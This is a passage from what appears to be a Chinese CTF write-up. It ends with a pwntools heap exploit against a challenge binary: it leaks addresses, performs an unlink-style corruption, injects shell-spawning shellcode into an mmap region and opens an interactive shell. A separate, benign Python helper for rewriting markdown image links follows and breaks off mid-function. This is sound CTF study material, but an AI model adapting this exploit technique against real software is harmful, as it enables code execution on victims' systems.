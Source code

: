 ```
    p.sendline(content)
p.recvuntil("Mmap: ")
mmap_addr = int(p.recvuntil("n",drop=True),16)
print hex(mmap_addr)
add(0xf8)
p.recvuntil("Address 0x")
addr = int(p.recvline().strip(),16) - 0x202068
add(0xf8)
add(0x20)
edit(0,p64(0)+p64(0xf1)+p64(addr+0x202068-0x18)+p64(addr+0x202068-0x10)+"a"*0xd0+p64(0xf0))
remove(1)
edit(0,p64(0)*2+p64(0xf8)+p64(addr+0x202078)+p64(0x140)+p64(mmap_addr))
edit(1,asm(shellcraft.sh()))
bss_addr = 0x202040
edit(0,p64(addr+0x202090)+p64(0x20)+p64(0x91)+p64(0)*17+p64(0x21)*5)
remove(1)
edit(0,p64(0)*3+p64(0x100)+'x10')
edit(3,p64(mmap_addr))
add(0x20)
p.interactive()
```



## 彩蛋

闲着无聊，写了个将md中的图片外链转为安全客图片链接的脚本：

请自行替换安全客登陆后的Cookie

```
#!coding:utf-8
import sys
import re
import requests
import base64
import json
reload(sys)
sys.setdefaultencoding('utf8')
requests.packages.urllib3.disable_warnings()

Cookie = 'PHPSESSID=xxxx; UM_distinctid=xxxx; wordpress_logged_in_de14bfc29164540b0259654d85d7b021=xxxxx'

def open_file():
    file_name = sys.argv[1]
    f = open(file_name,'r')
    content = f.read()
    f.close()
    return content

def write_file(new_content):
    f = open('new_content.md','w')
    f.write(new_content)
    f.close()

def get_img_link():
    link_list = []
    file_name = sys.argv[1]
    for line in open(file_name):
        line = line.strip()
        img_link = ''
        if '![' in line and '](http' in line:
            is_link = re.compile(r'[(](.*?)[)]', re.S)
            img_link = re.findall(is_link, line)[0]
```